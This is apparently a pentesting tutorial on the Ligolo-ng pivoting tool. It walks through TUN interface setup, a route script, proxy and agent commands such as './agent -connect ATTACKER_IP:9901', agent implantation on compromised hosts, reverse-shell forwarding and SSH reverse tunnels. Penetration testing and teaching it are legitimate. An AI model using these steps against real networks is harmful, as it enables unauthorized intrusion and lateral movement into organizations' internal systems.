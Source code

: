 ```yaml
---
description: >-
  Ligolo-ng is a simple, lightweight and fast tool that allows pentesters to
  establish tunnels from a reverse TCP/TLS connection using a tun interface
  (without the need of SOCKS).
---
```


# Ligolo-Ng

Ligolo-Ng is a unique pivoting tool that allows you to create VPN-like tunnels, enabling direct interaction via target IP addresses instead of using socks proxies. With an interactive CLI interface, you can easily jump from one agent to another without any hassle.

Ligolo-Ng has two parts: a proxy that acts as a C2 interface to locate and select your targets, and also enables listeners on the target machine; and an agent that you implant on the target machine to initiate the VPN connection from the target machine to the attacking machine.&#x20;

The agent does not require higher privileges on the target machine, so you can use a classic reverse shell to simplify any attacking methodology. With Ligolo-Ng, you can run any tool from your attacking machine against a target machine by closing the network gap between layers of networks.

{% embed url="https://github.com/tnpitsecurity/ligolo-ng" %}
Latest link in github to download ligolo-ng
{% endembed %}

<figure><img src="../../.gitbook/assets/Untitled Diagram.jpg" alt=""><figcaption><p>A classic scenario for pivoting use cases</p></figcaption></figure>

### Setting up Ligolo-ng

{% hint style="info" %}
Before running Ligolo-ng, you must create a TUN Interface on the attacker PC so that ligolo can add routes to different sub networks. The idea is that when you have a sub network such as \`192.168.0.0/24\` that is inside the tartget network, you can provide the sub network IP address (which can only be reached from an internal network) to any tool you want.
{% endhint %}

`Creating a Tun Interface`

```
# Before running ligolo-ng proxy, you must create a tuntap virtual interface
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
```

<details>

<summary>ligolo-setup-script</summary>

```
#!/bin/bash
me="$(whoami)"
echo "addling ligolo routes to user: $user"

echo "creating the ligolo tun interface"
sudo ip tuntap add user "$me" mode tun ligolo 
sudo ip link set ligolo up

echo "now adding routes $a $b"
a="172.16.0.0/24"
b="192.168.0.0/24"
c="10.10.0.0/24"
sudo ip route add "$a" dev ligolo
echo "done : $a"
sudo ip route add "$b" dev ligolo
echo "done : $b"
sudo ip route add "$c" dev ligolo
echo "done : $c"

echo "good luck! :)"
```

</details>

Once you have added the TUN Interface and the sub networks that you want to access from the attacker PC, you can now launch ligolo proxy on the attacker PC and the agent on an already compromised host in the internal network.

`Connecting to a Ligolo-Agent`

```
# 1. On the attacking machine :
./proxy -selfcert -laddr 0.0.0.0:9901

# 2. On each compromised host with the network that you want to pivot to
./agent -connect ATTACKER_IP:9901
```

### Agent Binding/Listening

`Agent Binding/listening on ligolo allows you to capture reverse shells from an internal network and forward it through the ligolo connection. You can then launch a netcat/pwncat-cs from the attacking machine seamlessly, give you the impression as if you were already in the target network.`

## Ligolo-Ng Pivoting Tutorials / Use Cases

### 1. Accessing the Target Network

Once a connection is establised on the Public Facing Server that is in the Target Network via a reverse shell, it is possible to access/enumerate or exploit any vulnerabilities against a different target in the same network trough ligolo (such as a DMZ) or a target that is in a neighbouring network (in the case of a non-segmented network). This allows an attcker to use their very own tools from the attacking machine.

{% hint style="info" %}
The following method works only when the Target Network has direct access to the attacking machine network, such as in a local network, via port forwarding or a VPN connection. More advanced pivoting techniques will be detailed below.
If the attacking machine is in a NAT network, then, port forwarding should implemented.
{% endhint %}

```
# 1. Follow the ligolo setup process and start the ligolo proxy on the attacking machine 
./proxy -selfcert -laddr 0.0.0.0:9901

# 2. Add a ip route on the attacker machine that will route the target sub network via the ligolo TUN interface
sudo ip route add 192.168.0.0/24 dev ligolo

# 3. Transfer the ligolo agent binary to the compromised target via wget/scp/pwncat-cs

# 4. Initiate a connection from the ligolo agent to the ligolo proxy
./agent -connect ATTACKER_IP:9901

# 5. On ligolo, select the agent that you have deployed on the compromised target (ligolo agent)

# 6. Once selected, type : 
start

//This will now route the sub network 192.168.0.0 via the ligolo TUN interface and through the ligolo tunnel
//Allowing you to use any tool from the attacking maching against the new target machine
```

![image](https://user-images.githubusercontent.com/90450439/221353322-0abc5b8e-01dd-491a-b3f7-0a3b050393ac.png)

### 1.1 Forwarding a reverse shell from the Target Network

Using the Ligolo's Agent Binding/Listening feature, it is possible to recieve a reverse shell connection from a target (in the Target Network) that does not have direct access to the attacking machine (ie. an internet/WAN access). An agent in a compromised server that can communicate with the target can also act as a listner, thus allowing to forward reverse shells through the ligolo tunnel back to the attacking machine.

```
# 1. Establish an agent in the Public Facing server via ligolo agent

# 2. On the ligolo proxy (on the attacking machine), select the agent

# 3. Provide the following command
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:8899 --tcp

# 4. Launch netcat/pwncat-cs on the attacker machine to recieve the reverse shell

//Flags : --addr 0.0.0.0:1234 (the listener IP and port on the compromised server)
//Flags : --to 127.0.0.1:8899 (the netcat/pwncat-cs listner on the attackers machine)
```

{% hint style="info" %}
In the following example, The reverse shell is initiated from the machine 192.168.0.10 in the target network that do not have direct access to the Attacker machine but to the Public Facing Server. When configuring the reverse shell, the connection must be directed to the Public Facing Server's IP address as it is were the ligolo agent will start it's listner that was initiated via listner_add.
{% endhint %}

![image](https://user-images.githubusercontent.com/90450439/221354631-dbcb392f-af06-49d8-a63c-c5c03201c2cd.png)

### 1.2. Accessing the Internal Network 

It is also possible to implant ligolo agents into deeper levels of the network in an organization inorder to compromise additional servers/devices. This follows the simmilar steps that were described for the Public Facing Server. However, this requires once again a reverse shell in the Internal Network or other sorts of foothold as a low privileged user in the internal network. 

```
# 2. Add a ip route on the attacker machine that will route the target sub network via the ligolo TUN interface
sudo ip route add 10.10.0.0/24 dev ligolo

# 3. Transfer the ligolo agent binary to the compromised target via wget/scp/pwncat-cs

# 4. Initiate a connection from the ligolo agent to the ligolo proxy
./agent -connect ATTACKER_IP:9901

# 5. On ligolo, select the agent that you have deployed on the compromised target (ligolo agent)

# 6. Once selected, type : 
start

//This will now route the sub network 10.10.0.0 via the ligolo TUN interface and through the ligolo tunnel
//Allowing you to use any tool from the attacking maching against the new target machine
```
![image](https://user-images.githubusercontent.com/90450439/224545307-05571c12-31a9-41b7-b8cc-8b4365336e77.png)

### 2. Pivoting Ligolo-Ng with SSH access

In the case where the Target Network as well as the Internal Network has no possibility to contact the attacking machine but via a SSH connection, it is possible to initiate a connection from a ligolo agent implanted in the Public Facing Server via a SSH Reverse tunnel. 

To do this, you will first have to initiate a Reverse SSH Connection. This is mainly because the ligolo proxy always listens to connections that are first initiated by the ligolo agent. A reverse ssh connection will allow us to open a port within the Public Facing Server and whatever that connects to that perticular port will then be tunnled trough the SSH connection.

![image](https://user-images.githubusercontent.com/90450439/224557695-01ad05f3-a9ca-4456-ac94-246f2b3f5228.png)

![image](https://user-images.githubusercontent.com/90450439/224558041-d257541d-a8f5-4fdd-9450-e4ef64ae4489.png)

